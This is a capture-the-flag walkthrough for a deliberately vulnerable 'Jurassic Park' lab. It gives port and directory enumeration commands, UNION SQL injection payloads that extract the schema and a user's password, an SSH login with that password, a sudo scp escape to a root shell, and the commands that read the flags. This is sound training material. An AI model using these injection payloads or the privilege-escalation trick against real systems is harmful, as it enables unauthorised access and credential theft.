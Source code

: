 # Jurassic Park CTF

## This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, **Dennis** Nedry has helped us to secure the app too.

### What is the name of the SQL database serving the shop information?

1. Start by port enumeration, there are only two open ports

```bash
nmap -p- -Pn <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-Pn`: Skips the host discovery process (ping scan)

![SCREEN01](https://github.com/user-attachments/assets/8be95842-fa3c-4227-8139-53d25c681efb)

2. Gobuster doesn't give us much more, just `/delete` and `/assets`. But in `/delete` there is information that `Ubuntu` is the OS, and database is `MySQL`

```bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing

![SCREEN02](https://github.com/user-attachments/assets/8858a950-99a4-4ce2-9e04-d1f1fb25c37b)

3. Going through the shop we can spot interesting url that is `<IP>/item.php?id=1`. If we put `'` at the end we will get caught

4. Use [Cyber Chief](https://gchq.github.io/CyberChef) URL Encode to prepare injection payload

```SQL
0 UNION SELECT 1,database(),3,4,5
```

![SCREEN03](https://github.com/user-attachments/assets/56af34d8-387e-4d32-b30d-1ff3f8f6edc9)

### How many columns does the table have?

1. If we go above 5, we will get an error '**Unknown column '6' in 'order clause'**'

```SQL
0 UNION SELECT 1,2,3,4,5
```

### What is the system version?

1. We can use payload like this to display version

```SQL
0 UNION SELECT 1,2,version(),4,5
```

![SCREEN04](https://github.com/user-attachments/assets/45677af5-4b49-4a86-b588-d297f0979259)

### What is Dennis' password?

1. First let's find out other tables

```SQL
0 UNION SELECT 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema = database()
```

![SCREEN05](https://github.com/user-attachments/assets/293644c2-96c3-47a4-a439-65e0ea74a67d)

2. Columns in `users`

```SQL
0 UNION SELECT 1,2,group_concat(column_name),4,5 from information_schema.columns where table_name = "users"
```

![SCREEN06](https://github.com/user-attachments/assets/1845ad5e-fc8c-4f47-ac20-a71fc9e87531)

3. Now get password, we already know the name

```SQL
0 UNION SELECT 1,2,3,password,5 from users
```

![SCREEN07](https://github.com/user-attachments/assets/11004dde-b10c-4aff-a732-8f70d6c16b49)

### What are the contents of the first flag?

1. Login using ssh

```Bash
ssh dennis@<IP>
```

![SCREEN08](https://github.com/user-attachments/assets/e0fcec40-7eeb-401e-ad07-8701561aef53)

2. The flag is right when we started

```Bash
cat flag1.txt
```

![SCREEN09](https://github.com/user-attachments/assets/9b4e6816-2450-47ca-ab25-bc8a28497304)

### What are the contents of the second flag?

1. Let's get root access to move around more easily

```Bash
sudo -l
```

2. Check [GTFOBins](https://gtfobins.github.io/gtfobins/scp/) for `scp`, use the sudo commands and upgrade our shell

```Bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:

python -c 'import pty; pty.spawn("/bin/bash")'
```

![SCREEN11](https://github.com/user-attachments/assets/39a54e47-de69-4c55-85a0-0f0f5f8b71d8)

3. Let's try to find more

```Bash
find / -type f -name "*flag*.*"
cat /boot/grub/fonts/flagTwo.txt
```

![SCREEN12](https://github.com/user-attachments/assets/409be678-2b24-46d9-b695-880b74380372)

### What are the contents of the third flag?

1. Third flag is hidden in history:

```Bash
history
```

![SCREEN13](https://github.com/user-attachments/assets/52612708-1483-4975-858a-d600e753a5c0)

### What are the contents of the fifth flag?

1. In `home/dennis/` there is `test.sh` which points to the `/root/flag5.txt`

```Bash
cat test.sh
cat /root/flag5.txt
```

![SCREEN14](https://github.com/user-attachments/assets/f669c4b6-7a40-440f-a107-85a547b8ebe6)

